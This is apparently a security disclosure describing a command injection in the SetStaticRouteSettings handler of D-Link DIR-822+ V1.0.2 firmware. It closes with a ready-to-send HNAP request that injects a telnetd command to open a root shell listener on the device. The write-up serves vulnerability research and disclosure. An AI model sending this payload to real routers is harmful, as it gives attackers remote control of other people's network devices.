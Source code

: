 # DIR-822+ Command Injection
### Discoverer
杨益/霍兴鹏

## Overview

D-Link DIR-822+ V1.0.2 was found to contain a command injection in `SetStaticRouteSettings` function.  allows remote attackers to execute arbitrary commands via shell

![image-20231221212125407](https://github.com/funny-mud-peee/IoT-vuls/blob/main/dir822%2B/1/img/image-20231221212125407.png)

![image-20231221212129179](https://github.com/funny-mud-peee/IoT-vuls/blob/main/dir822%2B/1/img/image-20231221212129179.png)

## Vulnerability details

![image-20231221214813987](https://github.com/funny-mud-peee/IoT-vuls/blob/main/dir822%2B/1/img/image-20231221214813987.png)

Use ’，‘ to segment data from the `staticroute list` and pass in the `sub_437028` function

![image-20231221214821593](https://github.com/funny-mud-peee/IoT-vuls/blob/main/dir822%2B/1/img/image-20231221214821593.png)

This part of the data was directly passed in `FCGI_popen` without any filtering

![image-20231221215626633](https://github.com/funny-mud-peee/IoT-vuls/blob/main/dir822%2B/1/img/image-20231221215626633.png)

`FCGI_popen`Called `popen` to create a pipeline to execute the command.

![image-20231221220509945](https://github.com/funny-mud-peee/IoT-vuls/blob/main/dir822%2B/1/img/image-20231221220509945.png)

Based on the cause of the vulnerability, we only need to use commas to separate three addresses and the command to be executed. The final constructed EXP is as follows:

## EXP

```
POST /HNAP1/ HTTP/1.1
Host: 192.168.0.1
Content-Length: 50
Accept: application/json
HNAP_AUTH: 4EDFBBC3845CEF88B0CC7B5A5B9419EB 1703160655517
SOAPACTION: "http://purenetworks.com/HNAP1/SetStaticRouteSettings"
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36 Edg/120.0.0.0
Content-Type: application/json
Origin: http://192.168.0.1
Referer: http://192.168.0.1/Staticroute.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: uid=VtVTeClk; PrivateKey=990D6EA08F8E8583354AD9D96CB35450; timeout=56
Connection: close

{"SetStaticRouteSettings":{"staticroute_list":"192.168.1.1,255.255.255.255,192.168.0.1,`telnetd -l /bin/sh -p 10000 -b 0.0.0.0`"}}
```

![image-20231221220640871](https://github.com/funny-mud-peee/IoT-vuls/blob/main/dir822%2B/1/img/image-20231221220640871.png)

![image-20231221220705779](https://github.com/funny-mud-peee/IoT-vuls/blob/main/dir822%2B/1/img/image-20231221220705779.png)

